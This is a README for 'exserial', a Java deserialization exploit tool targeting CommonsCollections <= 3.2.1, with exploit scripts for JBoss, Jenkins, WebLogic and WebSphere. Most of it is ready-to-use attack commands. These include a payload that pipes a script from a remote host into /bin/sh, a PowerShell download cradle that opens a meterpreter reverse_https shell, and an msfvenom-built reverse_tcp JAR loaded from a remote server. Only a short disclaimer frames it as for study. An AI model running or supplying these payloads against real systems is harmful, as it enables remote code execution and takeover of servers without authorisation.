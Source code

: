 # exserial
Java Untrusted Deserialization Exploits Tools
===

免责声明
---

本工具仅供学习与研究目的，请勿用于商业目的，如果因此有任何法律纠纷，与工具作者无任何关系。

文件说明
---

    .
    |____README.md
    |____exserial.jar     基于 CommonsCollections <= 3.2.1 的 Gadget 生成程序
    |____scripts
    | |____jboss.py       JBoss JMXInvokerServlet 利用脚本
    | |____jenkin.py      Jenkins CLI 利用脚本
    | |____weblogic.py    WebLogic 利用脚本
    | |____websphere.py   WebSphere 利用脚本

使用方法
---

`exserial.jar` 目前包含两种 Payload 生成模式：`CommandExec` 和 `ClassInject`

    $ java -jar exserial.jar
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar [module type]
        Available module types:
            CommandExec
            ClassInject

### 1. CommandExec 模式

用于直接在目标服务器上执行系统命令，可以根据不同的目标环境调整攻击配置：

    $ java -jar exserial.jar CommandExec
    Java Deserialize Exploit Gadget With (commons-collections <= 3.2.1)
    Usage: java -jar exserial.jar CommandExec [platform] [command to execute]
        Available platform types:
            Win
            Linux
            OSX
            
针对目标为 Linux 的系统，可以执行如下命令生成 Payload，使目标成功执行命令后加载我们指定的脚本文件进行执行：

    $ java -jar exserial.jar CommandExec Linux "curl http://myserver.com/todo.sh|/bin/sh" > demo1.ser
    
针对目标为 Windows 的系统，可以借助 Powershell 来获取 Shell 或者加载我们指定的脚本进行执行（下面为利用 [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) 中的 `Invoke--Shellcode.ps1` 脚本反弹类型为 `windows/meterpreter/reverse_https` 的 Shell）：

    $ java -jar exserial.jar CommandExec Win "powershell IEX (New-Object Net.WebClient).DownloadString('http://myserver.com/CodeExecution/Invoke--Shellcode.ps1');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.130.1 -Lport 4444 -Force" > demo2.ser
    
![](./screenshots/1.png)

### 2. ClassInject 模式

用于使目标服务器动态加载我们指定的 JAR 包并执行指定类名的 `main` 方法。

例如，可以使用 `msfvenom` 生成基于 [Metasploit](https://github.com/rapid7/metasploit-framework) 框架的 `java/meterpreter/reverse_tcp` JAR 包：

    $ msfvenom --payload="java/meterpreter/reverse_tcp" LHOST=192.168.130.1 LPORT=4444 -t jar > java_meterpreter_reverse_tcp.jar
    
然后将 `java_meterpreter_reverse_tcp.jar` 包至于一服务上用于目标服务器进行加载，然后使用 `exserial.jar` 生成对应的 Payload：

    $ java -jar exserial.jar ClassInject "http://myserver.com/java_meterpreter_reverse_tcp.jar" "metasploit.Payload" > demo3.ser

![](./screenshots/2.png)

更新记录
---

* 2015-12-12    增加 ClassInject Gadget 执行链生成类 和 反序列化本地测试类
* 2015-12-10    更新目录结构 & 修复 websphere.py 利用脚本 bug
* 2015-12-07    基于 CommonsCollections <= 3.2.1 Gadget 生成程序 exserial.jar（包含 jboss、jenkins、weblogic、websphere 利用脚本）

